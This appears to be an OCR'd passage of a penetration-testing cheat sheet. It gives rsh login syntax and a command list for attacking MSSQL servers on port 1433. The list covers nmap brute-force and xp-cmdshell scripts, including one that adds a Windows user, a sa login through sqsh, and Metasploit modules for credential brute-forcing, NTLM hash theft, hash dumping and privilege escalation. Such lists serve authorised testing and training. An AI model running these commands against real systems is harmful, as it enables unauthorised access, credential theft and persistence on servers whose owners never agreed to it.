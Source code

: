     -   **Login**

        -   rsh \[IP\] \[Command\]

        -   rsh \[IP\] -l domain\\user \[Command\]

        -   rsh domain/user@\[IP\] \[Command\]

        -   rsh domain\\\\user@\[IP\] \[Command\]

-   **Mssql port 1433 open**

    -   **Nmap**

        -   nmap -n -v -sV -Pn -p 1433 \--script ms-sql-brute \--script-args userdb=users.txt,passdb=passwords.txt \[ip\]

        -   nmap -n -v -sV -Pn -p 1433 \--script ms-sql-info,ms-sql-ntlm-info,ms-sql-empty-password \[ip\]

        -   nmap -n -v -sV -Pn -p 1433 \--script ms-sql-xp-cmdshell \--script-args mssql.username=SQL\_USER,mssql.password=SQL\_PASS,ms-sql-xp-cmdshell.cmd=\"net user lifeoverpentest password /add\" 192.168.1.10

        -   sqsh -S \[ip\] -U sa

    -   **Metasploit**

        -   **Bruteforce login**

        -   Msf\> use auxiliary/scanner/mssql/mssql\_login

        -   **Steal NTLM**

        -   msf\> use auxiliary/admin/mssql/mssql\_ntlm\_stealer \#Steal NTLM hash, before executing run Responder

        -   **Info gathering**

        -   msf \> use auxiliary/scanner/mssql/mssql\_ping

        -   msf\> use auxiliary/admin/mssql/mssql\_enum \#Security checks

        -   msf\> use auxiliary/admin/mssql/mssql\_enum\_domain\_accounts

        -   msf\> use auxiliary/admin/mssql/mssql\_enum\_sql\_logins

        -   msf\> use auxiliary/admin/mssql/mssql\_findandsampledata

        -   msf\> use auxiliary/scanner/mssql/mssql\_hashdump

        -   msf\> use auxiliary/scanner/mssql/mssql\_schemadump

        -   **Search for insteresting data**

        -   msf\> use auxiliary/admin/mssql/mssql\_findandsampledata

        -   msf\> use auxiliary/admin/mssql/mssql\_idf

        -   **Privesc**

        -   msf\> use exploit/windows/mssql/mssql\_linkcrawler

        -   msf\> use admin/mssql/mssql\_escalate\_execute\_as \#If the user has IMPERSONATION privilege, this will try to escalate

